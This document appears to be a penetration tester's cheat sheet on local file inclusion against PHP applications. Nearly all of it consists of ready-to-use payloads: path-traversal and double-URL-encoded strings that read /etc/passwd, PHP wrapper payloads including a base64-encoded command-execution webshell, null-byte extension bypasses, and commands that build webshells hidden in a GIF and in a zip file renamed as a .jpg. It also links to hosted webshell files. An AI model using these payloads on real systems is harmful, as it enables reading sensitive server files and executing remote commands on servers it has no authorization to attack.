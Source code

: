 ## Local File Inclusion - LFI
### Replace ../ - Bypass
$language = str_replace('../', '', $_GET['file']);  
```
/....//....//....//....//etc/passwd  
..././..././..././..././etc/paswd  
....\/....\/....\/....\/etc/passwd 
```

### Block . and / - Bypass

-> urlencode and Double urlencode /etc/passwd  
```
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```
```
%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34
```  
### PHP Wrappers

```
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id  
expect://id  
php://filter/read=convert.base64-encode/resource=index.php  
php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
```

### Filter PHP
-> Predefined Paths  
preg_match('/^\.\/okay\/.+$/', $_GET['file'])  

```
./okay/../../../../etc/passwd
```  

### PHP Extension Bypass with Null Bytes
```
https://site.com/index.php?file=/etc/passwd%00.php
```  
-> Removing .php  
```
https://site.com/index.php?file=index.p.phphp
```  
  
#### LFI + File Upload
-> gif  
```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > ok.gif
``` 
https://github.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/blob/main/codes/webshells/shell.gif  
-> Zip  
1-  
```
echo '<?php system($_GET["cmd"]); ?>' > ok.php && zip wshell_zip.jpg ok.php
```
2-  
```
http://ip/index.php?file=zip://./uploads/wshell_zip.jpg%23ok.php&cmd=id  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/wshell_zip.jpg 
```
